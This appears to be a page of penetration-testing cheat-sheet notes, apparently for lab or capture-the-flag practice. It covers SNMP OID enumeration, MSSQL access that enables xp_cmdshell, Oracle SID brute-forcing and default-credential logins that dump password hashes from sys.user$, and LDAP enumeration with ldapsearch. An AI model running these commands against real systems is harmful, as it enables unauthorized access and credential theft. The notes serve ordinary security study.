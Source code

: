 ```
| 1.3.6.1.2.1.25.1.6.0   | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path   |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units    |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name    |
| 1.3.6.1.4.1.77.1.2.25  | User Accounts    |
| 1.3.6.1.2.1.6.13.1.3   | TCP Local Ports  |
```

# MSSQL

```bash
impacket-mssqlclient user:pass@<machine_ip> -windows-auth

enum_db
use <db>
go
SELECT table_name FROM flagDB.INFORMATION_SCHEMA.tables
go
SELECT * FROM tb_flag
```

```bash
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```
# Oracle DB (1521/1748)

```bash
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
./odat all -s 10.129.205.19
sqlplus scott/tiger@10.129.204.235/XE

select name, password from sys.user$;
```

```bash
Si : sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
--> sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

# LDAP (389/3268)

```bash
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"

ldapsearch -H ldap://10.10.10.175/ -x -s base -b '' "(objectClass=*)" "*" +
```
